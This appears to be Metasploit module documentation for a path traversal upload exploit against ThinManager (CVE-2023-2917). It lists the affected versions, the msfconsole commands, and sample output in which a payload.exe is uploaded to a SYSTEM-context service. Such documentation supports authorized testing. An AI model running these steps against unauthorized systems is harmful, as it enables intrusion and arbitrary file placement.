 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.1.0 (CVE-2023-2917) to upload an arbitrary file to the target
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.1.0 on Windows 22H2
- ThinManager v13.0.1 on Windows 22H2
- ThinManager v12.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v12.0.4 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/admin/networking/thinmanager_traversal_upload2 
msf auxiliary(admin/networking/thinmanager_traversal_upload2) > set RHOSTS <IP>
msf auxiliary(admin/networking/thinmanager_traversal_upload2) > set LFILE <local file location>
msf auxiliary(admin/networking/thinmanager_traversal_upload2) > set RFILE <remote file location>
msf auxiliary(admin/networking/thinmanager_traversal_upload2) > run
```

This should upload the local file specified through LFILE to the server, as specified in RFILE.

## Options

### LFILE
Specifies the local file to upload to the remote server.

### RFILE
Specifies the remote file location where the file will be uploaded to.

## Scenarios

Running the exploit against ThinManager v13.1.0 on Windows 22H2 should result in an output similar to the following:

```
msf auxiliary(admin/networking/thinmanager_traversal_upload2) > run
[*] Running module against 192.168.137.229

[*] 192.168.137.229:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.229:2031 - The service is running, but could not be validated.
[*] 192.168.137.229:2031 - Sending handshake...
[*] 192.168.137.229:2031 - Received handshake response.
[*] 192.168.137.229:2031 - Read 27648 bytes from /tmp/payload.exe
[*] 192.168.137.229:2031 - Uploading /tmp/payload.exe as /Program Files/Rockwell Software/ThinManager/payload.exe on the remote host...
[*] 192.168.137.229:2031 - Upload request length: 27752 bytes
[!] 192.168.137.229:2031 - No response received after upload.
[+] 192.168.137.229:2031 - Upload process completed. Check if '/Program Files/Rockwell Software/ThinManager/payload.exe' exists on the target.
[*] Auxiliary module execution completed
```
